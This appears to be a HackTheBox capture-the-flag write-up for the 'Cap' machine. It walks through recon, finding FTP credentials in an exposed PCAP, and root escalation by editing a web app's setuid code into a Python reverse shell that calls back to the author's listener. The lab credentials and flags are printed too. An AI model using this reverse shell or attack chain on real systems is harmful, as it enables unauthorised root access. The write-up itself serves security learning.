

# Cap

## Recon
The [nmap scan](../resources/cap/nmap_scan) (`sudo nmap -A -T4 -p- 10.10.10.245`) showed only 3 open ports: 21, 22 & 80.

Both FTP and SSH were password protected so that was a no-go.
The web server was running on `gunicorn` but a search for vulnerabilities came up empty.
So I fired up BurpSuite, opened the browser and went to visit the website.

## Web Recon
Visiting the landing page of the web server showed that it was some kind of network info/security dashboard.
There were several different pages for checking:
- Network Status
- IP Config
- Security Snapshot (5 Second PCAP Analysis)

The last one caught my eye, so I tried it out.
After a 5 second pause it redirected me to a new URL (`/data/1`) which showed some statistics about the capture and a download for the file.

Opening up the file in wireshark showed very little activity - mainly just SYN/ACK requests between me and the server.

I then tried a few things on Burp:
- Checking data ids from 2-100
- Changing the request to HEAD, POST, PUT, DELETE

None of which yielded anything

Then I ran Dirbuster to see if it would find any hidden directories but that also came up empty.

After a long while I had a thought, and searched for `/data/0` and finally found something useful.
This page contained a PCAP file created by someone other than me.

I had a quick look over it and noticed that the web server was running on `Werkzeug/2.0.0`.
A quick google search found a vulnerability - https://www.exploit-db.com/exploits/43905

## Exploit

I downloaded the [python file](../resources/cap/exploit.py).

Started an ncat server:
```bash
nc -nlvp 4444
```

Ran the exploit:
```bash
python3 exploit.py 10.10.10.245 80 10.10.16.200 4444
```

Unfortunately this gave me a message saying that debugger (an essential part of the exploit) was disabled.

## Recon #2
I spent a very long time pouring through PCAP entries on WireShark, when finally I took a step back and realized the answer had been right in front of my face:



The PCAP had caught a user (nathan) logging into the FTP server and caught his credentials:
- Username - nathan
- Password - Buck3tH4TF0RM3!

Using this I was able to ftp into the server and find `user.txt`
```bash
kali@kali:~/workspace/htb$ ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:kali): nathan
Buck3tH4TF0RM3!
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-r--------    1 1001     1001           33 Aug 22 16:59 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for user.txt (33 bytes).
226 Transfer complete.
33 bytes received in 0.00 secs (700.5775 kB/s)
ftp> 

^C
cat user.txt
5c1010aef5dae72457add38c76cd675f
```

## Privilage Escalation

Other retrieving (a fairly useless) [passwd file](../resources/cap/passwd) I was unable to find much else of use.
It then occurred to me that I could most likely use the same credentials to login via SSH - which I did.

Now that I had a shell a check my sudo privilages showed that I had none:
```bash
nathan@cap:~$ sudo -l
Sorry, user nathan may not run sudo on cap.
```

I then proceeded to run down multiple rabbit holes for a couple of hours, unable to find anything useful.

Finally a though occurred to me: In order to capture a PCAP the web code must have some kind of sudo privilages.
So I searched for the app and found it in `/var/www/html`, the main code was in `app.py`.

The code that captured the PCAP had some comments and some interesting commands I'd never seen before:
```python
# permissions issues with gunicorn and threads. hacky solution for now.
#os.setuid(0)
#command = f"timeout 5 tcpdump -w {path} -i any host {ip}"
command = f"""python3 -c 'import os; os.setuid(0); os.system("timeout 5 tcpdump -w {path} -i any host {ip}")'"""
os.system(command)
#os.setuid(1000)
```

It appears that using `os.system` to run `python3 -c` and then run `os.setuid(0)` within that allows us to run system commands as root.

## PE Exploit

I started up an Ncat server:
```bash
nc -nlvp 4444
```

Then I replaced the `command` variable with a modified script that I found [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python):
```python
command = f"""python3 -c 'import socket,os,pty;os.setuid(0);s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.200",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'"""
os.system(command)
```

I also edited the file to run on port 8000 so that I could run a new version of the server.

I started up the new server (`python3 app.py`), visited `10.10.10.245:8000/capture` and was presented with a glorious root shell!

```bash
root@cap:/var/www/html$ cat /root/root.txt
9c7470c3ccfd10ab04d7d34058d27399
```


